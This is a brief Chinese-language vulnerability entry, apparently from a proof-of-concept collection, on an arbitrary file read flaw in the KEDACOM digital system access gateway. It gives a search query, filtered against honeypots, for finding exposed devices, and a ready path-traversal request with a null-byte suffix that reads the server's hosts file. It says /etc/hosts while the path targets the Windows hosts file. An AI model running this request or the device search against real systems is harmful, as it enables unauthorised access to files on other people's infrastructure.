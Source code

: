 # 

# KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

```
KEDACOM 数字系统接入网关
```

## 网络测绘

```
(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)
```

## 漏洞复现

登录页面如下

![](./images/202202162300072.png)

使用POC读取 /etc/hosts

```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](./images/202202162300019.png)
